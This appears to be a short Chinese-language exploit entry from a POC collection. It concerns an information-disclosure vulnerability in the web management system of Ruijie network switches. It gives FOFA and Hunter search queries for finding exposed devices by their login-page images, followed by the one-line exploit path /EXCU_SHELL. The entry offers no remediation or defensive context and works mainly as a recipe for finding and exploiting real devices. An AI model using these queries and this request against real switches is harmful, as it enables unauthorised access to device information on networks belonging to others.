 # 锐捷 交换机 WEB管理系统 EXCU_SHELL 信息泄露漏洞

## 网络测绘

fofa: body="img/free_login_ge.gif" && body="./img/login_bg.gif"

hunter: web.body="img/free_login_ge.gif" && web.body="./img/login_bg.gif"

## POC / EXP

```
/EXCU_SHELL
```